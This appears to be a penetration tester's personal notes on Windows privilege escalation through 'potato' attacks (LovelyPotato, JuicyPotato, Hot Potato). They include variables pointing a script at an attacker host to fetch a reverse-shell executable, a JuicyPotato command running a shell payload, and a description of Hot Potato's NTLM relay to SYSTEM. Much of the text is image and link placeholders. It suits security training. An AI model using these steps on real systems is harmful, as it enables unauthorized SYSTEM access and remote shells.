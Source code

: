 ==OPEN AND FOLLOW THE README!!==

==Make sure you change all the variables needed!==

Invoke-LovelyPotato.ps1:

`$RemoteDir = "http://$KALI`
`$LocalPath = "[WritablePathOnVictimMachine]"`

Replace the first "meterpreter.exe" with "reverse{86/64}.exe" 

![[Pasted image 20211229211045.png]]

![[Pasted image 20220205162717.png]]

Transfer and execute Invoke-LovelyPotato.ps1 on the target.
![[2._Powershell  Bypass#Execution bypass]]

![[4._File Transfers#Powershell Download and execute]]

![[Pasted image 20211229211245.png]]

Now just wait, as this can take up to 10 mins:


![[Pasted image 20211229211526.png]]

Keep an eye on result.log if unable to determine if working.  Log will grow as it's working.

![[1._Reverse Shells (WIN)#MSFVenom#bat]]

![[rlwrap]]

```command prompt - windows
JuicyPotato.exe -t * -p shell.bat -l 4444
```


#### Hot Potato
Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. 

The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.

This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

(Note: These steps are for Windows 7)

1. Copy the potato.exe exploit executable over to Windows.

2. Start a listener on Kali.

![[rlwrap]]

3. Run the exploit:
